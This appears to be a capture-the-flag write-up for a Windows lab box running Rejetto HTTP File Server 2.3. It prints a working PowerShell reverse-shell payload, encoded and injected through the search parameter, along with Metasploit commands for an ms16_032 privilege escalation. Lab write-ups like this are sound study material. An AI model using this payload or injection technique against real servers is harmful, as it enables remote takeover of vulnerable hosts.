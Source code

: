 Box: Windows
Level: Easy

| INDEX                             |
| --------------------------------- |
| 1. MsfConsole                     |
| 2. Rejetto HTTPFileServer 2.3 RCE |
| 3. Exploit Modification           |
The Box was vulnerable with https://www.exploit-db.com/exploits/49584.
Initially to capture the flag, I used the msfconsole and local exploit suggester to perform the privilege escalation to the admin user however, I wanted to capture the request that gets me the reverse shell. 

The box present the web interface with a search box for the HTTP File Server 2.3 Vulnerable to RCE.

The exploit from the above link was downloaded on kali and than the following command and payload was encoded to get the reverse shell on the search function.

```
command = f'$client = New-Object System.Net.Sockets.TCPClient("{lhost}",{lport}); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()'

encoded_command = base64.b64encode(command.encode("utf-16le")).decode()

payload = f'exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand {encoded_command}'

encoded_payload = urllib.parse.quote_plus(payload)

#Now send the Encoded payload through Burp Suite to the GET /?search=%00{{.<Encoded_Payload_Here>.}} Also start the nc listener on port 8888. 
```

Following to that, I was able to use the local exploit suggester to use one of the suggested exploit to get the Admin shell.

```
#at this point, just type "meterpreter>sessions -i 1" where 1 is an invalid #session number and you will be back to the msf6> prompt where you can use the #following exploit suggester module and the session remains active. DO Not Use #Exit or Quit. That will kill the session.


use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
Set Sessions 4
Exploit
```

